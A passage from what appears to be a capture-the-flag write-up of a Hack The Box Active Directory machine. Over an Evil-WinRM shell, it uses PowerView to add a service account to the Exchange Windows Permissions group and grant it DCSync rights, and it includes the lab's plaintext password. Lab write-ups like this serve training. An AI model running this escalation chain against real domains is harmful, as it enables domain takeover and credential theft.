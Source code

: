 First, I loaded Powerview module to ease some things, you can do this manually too of course. Once that is ready, we can start adding the user `svc-alfresco` to the `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` group:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'svc-alfresco'
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Get-DomainUser svc-alfresco


logoncount                    : 8
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : svc-alfresco
lastlogontimestamp            : 11/23/2022 7:13:55 AM
userprincipalname             : svc-alfresco@htb.local
name                          : svc-alfresco
objectsid                     : S-1-5-21-3072663084-364016917-1341370565-1147
samaccountname                : svc-alfresco
logonhours                    : {255, 255, 255, 255...}
admincount                    : 1
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : 12/31/1600 4:00:00 PM
countrycode                   : 0
whenchanged                   : 11/23/2022 4:18:27 PM
instancetype                  : 4
usncreated                    : 26083
objectguid                    : 58a51302-4c7c-4686-9502-d3ada3afaef1
lastlogoff                    : 12/31/1600 4:00:00 PM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=htb,DC=local
dscorepropagationdata         : {11/23/2022 4:19:02 PM, 11/23/2022 4:19:02 PM, 11/23/2022 4:19:02 PM, 11/23/2022 4:19:02 PM...}
givenname                     : svc-alfresco
memberof                      : {CN=Service Accounts,OU=Security Groups,DC=htb,DC=local, CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local}
lastlogon                     : 11/23/2022 7:18:53 AM
badpwdcount                   : 0
cn                            : svc-alfresco
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
whencreated                   : 9/20/2019 12:58:51 AM
primarygroupid                : 513
pwdlastset                    : 11/23/2022 8:18:27 AM
msds-supportedencryptiontypes : 0
usnchanged                    : 1182218
```

Now we have `WriteDacl`, so we can just add permissions to our user to perform the DCSync attack:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $user = "htb\svc-alfresco"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = "s3rvice"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $secstr = New-Object -TypeName System.Security.SecureString
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
